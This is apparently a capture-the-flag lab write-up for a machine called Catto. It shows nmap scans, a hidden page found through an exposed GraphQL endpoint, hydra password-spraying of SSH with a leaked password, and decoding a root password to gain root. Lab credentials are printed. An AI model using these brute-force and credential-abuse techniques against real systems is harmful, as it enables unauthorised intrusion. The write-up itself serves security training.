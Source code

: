 # Catto

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.139
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 15:03 +08
Nmap scan report for 192.168.183.139
Host is up (0.17s latency).
Not shown: 65524 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
2500/tcp  filtered rtsserv
4907/tcp  filtered unknown
8080/tcp  open     http-proxy
18080/tcp open     unknown
30330/tcp open     unknown
36123/tcp open     unknown
38439/tcp open     unknown
42022/tcp open     unknown
42086/tcp filtered unknown
50400/tcp open     unknown
56339/tcp filtered unknown
```

Lots of ports open. Did a detailed scan as well:

```
$ sudo nmap -p 8080,18080,30330,36123,38439,42022,50400 -sC -sV --min-rate 3000 192.168.183.139
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 15:05 +08
Nmap scan report for 192.168.183.139
Host is up (0.17s latency).

PORT      STATE SERVICE VERSION
8080/tcp  open  http    nginx 1.14.1
|_http-server-header: nginx/1.14.1
|_http-title: Identity by HTML5 UP
|_http-open-proxy: Proxy might be redirecting requests
18080/tcp open  http    Apache httpd 2.4.37 ((centos))
|_http-title: CentOS \xE6\x8F\x90\xE4\xBE\x9B\xE7\x9A\x84 Apache HTTP \xE6\x9C\x8D\xE5\x8A\xA1\xE5\x99\xA8\xE6\xB5\x8B\xE8\xAF\x95\xE9\xA1\xB5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
30330/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
36123/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
38439/tcp open  unknown
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, ms-sql-s, oracle-tns: 
|     HTTP/1.1 400 Bad Request
|_    Connection: close
42022/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 cc2151f2c62aadd6ca0704de705ffa13 (RSA)
|   256 05e490d2002b9d14e39f4468d28ebcdc (ECDSA)
|_  256 ca804973f0c805aebd2b42371d13e071 (ED25519)
50400/tcp open  http    Node.js Express framework
|_http-title: Error
|_http-cors: HEAD GET POST PUT DELETE PATCH
```

### Web Enum --> GraphQL&#x20;

Port 8080 shows a portfolio page:

<figure><img src="../../../.gitbook/assets/image (1761).png" alt=""><figcaption></figcaption></figure>

It was rather static, so I moved to port 30330. This page had some book reviews:

<figure><img src="../../../.gitbook/assets/image (3843).png" alt=""><figcaption></figcaption></figure>

This page looked more dynamic, so I ran a directory scan with `feroxbuster`, which found nothing of interest. Since we couldn't find anything with wordlists, I took a look through the local files:

There were a few interesting folders:

<figure><img src="../../../.gitbook/assets/image (483).png" alt=""><figcaption></figcaption></figure>

There wasn't much within the folders. On the 'Using Typescript' page, there was a link to documentation:

<figure><img src="../../../.gitbook/assets/image (1525).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://www.gatsbyjs.com/docs/how-to/custom-configuration/typescript/" %}

On the documentation page, there was mention of GraphQL being used, and sure enough `/__graphql` was a valid directory on the website as per the documentation:

<figure><img src="../../../.gitbook/assets/image (3582).png" alt=""><figcaption></figcaption></figure>

The left had some queries already valid, so I checked those out. Using the `allSitePage` reveals all directories, including a hidden one:

<figure><img src="../../../.gitbook/assets/image (901).png" alt=""><figcaption></figcaption></figure>

Visiting it reveals a password:

<figure><img src="../../../.gitbook/assets/image (1768).png" alt=""><figcaption></figcaption></figure>

This was a password to a Minecraft server. We didn't have a user, but the Minecraft page had some that we could try:

{% code overflow="wrap" %}
```
Minecraft: The Island by Max Brooks, #1 New York Times bestselling author of World War Z, is the first official Minecraft novel. In the tradition of iconic stories like Robinson Crusoe and Treasure Island, Minecraft: The Island will tell the story of a new hero stranded in the world of Minecraft, who must survive the harsh, unfamiliar environment and unravel the secrets of the island.

We loved this book so much that created a server. Already invited and added keralis, xisuma, zombiecleo, mumbojumbo, and waiting for a reply on the entire hermicraft clan. There is a limit on the server, but at least sabel, yvette, zahara, sybilla, marcus, tabbatha and tabby are already online and building.

Good luck everybody!
```
{% endcode %}

We can gather all the usernames into one wordlist:

```
sabel
yvette
zahara
sybilla
marcus
tabbatha
tabby
keralis
xisuma
zombiecleo
mumbojumbo
```

I used `hydra` to brute force the creds:

```
$ hydra -L users -p WallAskCharacter305 192.168.183.139 ssh -s 42022
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-12 15:20:55
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 11 tasks per 1 server, overall 11 tasks, 11 login tries (l:11/p:1), ~1 try per task
[DATA] attacking ssh://192.168.183.139:42022/
[42022][ssh] host: 192.168.183.139   login: marcus   password: WallAskCharacter305
```

We can then `ssh` in as `marcus`:

<figure><img src="../../../.gitbook/assets/image (1770).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### .bash --> Base64key Root Creds

There was a weird folder `.bash` within the user's home directory:

```
[marcus@catto ~]$ ls -la
total 20
drwx------  5 marcus marcus 167 Nov 25  2020 .
drwxr-xr-x. 3 root   root    20 Nov 25  2020 ..
-rw-r--r--  1 root   root    29 Nov 25  2020 .bash
-rw-------  1 marcus marcus   0 Apr 14  2021 .bash_history
-rw-r--r--  1 marcus marcus  18 Nov  8  2019 .bash_logout
-rw-r--r--  1 marcus marcus 141 Nov  8  2019 .bash_profile
-rw-r--r--  1 marcus marcus 312 Nov  8  2019 .bashrc
drwx------  4 marcus marcus  39 Nov 25  2020 .config
drwxr-xr-x  6 marcus marcus 328 Nov 25  2020 gatsby-blog-starter
-rw-------  1 marcus marcus  33 Jul 12 06:59 local.txt
drwxrwxr-x  4 marcus marcus  69 Nov 25  2020 .npm

[marcus@catto ~]$ cat .bash
F2jJDWaNin8pdk93RLzkdOTr60==
```

This string looked like `base64` but it wasn't. I looked at other binaries with `base` as part of their name:

```
[marcus@catto ~]$ base
base32     base64     base64key  basename
```

`base64key` required a private key to decrypt, so I just tried the user's password and it worked:

```
[marcus@catto ~]$ base64key
Usage: ./a.out message key (0:encrypt|1:decrypt)
./a.out "Hello world" MYPRIVATEKEY 0
./a.out ttz9JqxZHBClNtu= MYPRIVATEKEY 1
[marcus@catto ~]$ base64key F2jJDWaNin8pdk93RLzkdOTr60== WallAskCharacter305 1
SortMentionLeast269
```

We can then `su` to `root`:

<figure><img src="../../../.gitbook/assets/image (2591).png" alt=""><figcaption></figcaption></figure>
